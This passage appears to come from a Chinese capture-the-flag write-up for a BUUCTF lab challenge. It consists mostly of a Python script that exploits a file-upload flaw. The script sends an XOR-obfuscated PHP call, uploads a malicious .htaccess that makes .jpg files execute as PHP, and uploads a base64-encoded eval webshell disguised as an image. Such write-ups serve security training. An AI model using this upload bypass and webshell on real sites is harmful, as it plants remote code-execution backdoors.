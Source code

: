 #### 改包

抓一下这个包, 是 GET, 需要改包:

![4.png](4.png)

用 python 改包:

```python
import requests

url = 'http://a62b8769-0bdb-4479-884c-ddd1c57601ab.node5.buuoj.cn:81/?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=get_the_flag'

# 构造内容：.htaccess
htaccess_payload = b"""#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./shell.jpg"
AddType application/x-httpd-php .jpg
"""

# 构造内容：shell.jpg
shell_payload = b"""GIF89a00PD89QGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg=="""

# Step 1: 上传 .htaccess
files1 = {
    'file': ('.htaccess', htaccess_payload, 'image/jpeg')
}
res1 = requests.post(url, files=files1)
print('[.htaccess 上传] 状态码:', res1.status_code)

# 输出响应文本
print(res1.text)
# Step 2: 上传 shell.jpg
files2 = {
    'file': ('shell.jpg', shell_payload, 'image/jpeg')
}
res2 = requests.post(url, files=files2)
print('[shell.jpg 上传] 状态码:', res2.status_code)

# 输出响应文本
print(res2.text)
```
